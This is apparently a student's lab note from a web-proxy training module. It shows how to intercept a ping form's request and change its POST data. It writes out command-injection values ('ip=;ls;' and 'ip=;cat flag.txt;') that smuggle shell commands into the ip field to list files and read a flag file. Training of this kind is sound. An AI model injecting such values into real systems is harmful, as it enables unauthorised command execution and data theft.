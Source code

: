 # Using Web Proxies

## Web proxy

### Intercepting Web Requests

**Try intercepting the ping request on the server shown above, and change the post data similarly to what we did in this section. Change the command to read 'flag.txt'**

* modify ip=1 -> ip=;ls;

<figure><img src=".gitbook/assets/image (75).png" alt=""><figcaption></figcaption></figure>

* modify ip=1 -> ip=;cat flag.txt;

<figure><img src=".gitbook/assets/image (76).png" alt=""><figcaption></figcaption></figure>

### Intercepting Responses

* we can enable interception by going to (Proxy>Options) and enabling Intercept Response under Intercept Server Responses
